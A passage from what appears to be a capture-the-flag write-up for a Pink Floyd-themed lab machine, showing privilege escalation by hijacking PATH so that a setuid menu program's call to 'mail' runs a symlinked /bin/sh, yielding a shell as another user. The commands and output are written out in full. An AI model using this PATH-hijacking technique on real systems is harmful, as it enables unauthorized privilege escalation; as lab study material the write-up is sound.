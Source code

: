 ```bash
/usr/bin/who
Is There Anybody Out There? - The Wall
/sbin/ping -c 3 www.google.com
Keep Talking- The Division Bell
mail
```

Let's create a symlink to the mail command in /tmp that runs /bin/sh instead then update our PATH to call it first.

```bash
$ id                                                                         
uid=1003(RichardWright) gid=1003(RichardWright) groups=1003(RichardWright) 
$ ln -s /bin/sh /tmp/mail
$ export PATH=/tmp:$PATH
$ shineon
Menu

1. Calendar
2. Who
3. Check Internet
4. Check Mail
5. Exit
4
Keep Talking- The Division Bell
mail: Cannot determine current working directory
$ id
uid=1003(RichardWright) euid=1004(DavidGilmour) gid=1003(RichardWright) groups=1003(RichardWright)
```
Awesome then we have a shell as David Gilmour, must be getting close now.

![](pics/davidgilmour.jpg)

